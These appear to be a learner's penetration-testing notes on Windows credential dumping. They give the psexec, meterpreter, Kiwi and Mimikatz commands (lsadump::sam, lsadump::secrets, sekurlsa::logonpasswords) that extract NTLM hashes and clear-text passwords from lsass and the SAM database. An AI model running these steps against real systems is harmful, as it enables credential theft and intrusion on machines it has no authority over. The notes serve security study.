 Can verify it is the right credentials with <mark style="background: #D2B3FFA6;">psexec</mark> 
+ Example: `psexec.py Administrator@10.3.21.57`
	+ It will then ask for the password
+ Now have access to the target system as an admin 

### Dumping Hashes With Mimikatz ###

#### Mimikatz ####
+ <mark style="background: #D2B3FFA6;">Mimikatz</mark> is a Windows post-exploitation tool written by Benjamin Delpy
	+ <mark style="background: #FFF3A3A6;">Allows for the extraction of clear-text passwords</mark>, hashes and Kerberos tickets from memory 
+ The <mark style="background: #BBFABBA6;">SAM</mark> (Security Account Manager) database, is a database file on Windows systems that <mark style="background: #ADCCFFA6;">stores hashed user passwords</mark>
+ <mark style="background: #D2B3FFA6;">Mimikatz</mark> can be used to extract hashes from the <mark style="background: #BBFABBA6;">lsass.exe</mark> process memory where hashes are cached 
+ Can utilize the pre-compiled mimikatz executable, alternatively, if we have have access to a meterpreter session on a Windows target, can utilize the inbuilt <mark style="background: #FF5582A6;">meterpreter</mark> extension <mark style="background: #D2B3FFA6;">Kiwi</mark> 

<mark style="background: #FF5582A6;">NOTE</mark>: Mimikatz require's elevate privileges in order to run correctly 

Can find the process ID for <mark style="background: #BBFABBA6;">lsass</mark> with:
  + `pgrep lsass`
  + With admin privileges, can `migrate` to that process
  + Will now run `getuid`, if `NT AUTHORITY\SYSTEM`, we now have the highest privileges 

Will now start using <mark style="background: #D2B3FFA6;">kiwi</mark>
+ `load kiwi`
+ can see help menu with `?`
+ `creds_all` will dump all credentials 
	+ Though later windows versions do not store clear text passwords at all
+ `lsa_dump_sam` will drop all the NTLM hashes for the users on the system
	+ can provide the SysKey 
+ `lsa_dump_secrets` can provide some clear text credentials in some cases 

Can upload <mark style="background: #D2B3FFA6;">Mimikatz</mark> executable with the following:
+ Will need to upload with a meterpreter session, and should make or use the `Temp` folder
+ `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
+ Will the start a command shell session with `shell`
+ can executive it with `.\mimikatz.exe`
+ Now that mimikatz has started, will check if we have permissions to use it with `privilege::debug`
	+ if we get `Privilege '20' OK`, we can run it 
+ Can now dump the hashes with: `lsadump::sam`
	+ will provide <mark style="background: #ADCCFFA6;">much more information</mark> then <mark style="background: #D2B3FFA6;">kiwi</mark> 
+ can dump secrets with `lsadump::secrets`
+ can also potentially <mark style="background: #FFF3A3A6;">see clear text login passwords</mark> with `sekurlsa::logonpasswords`
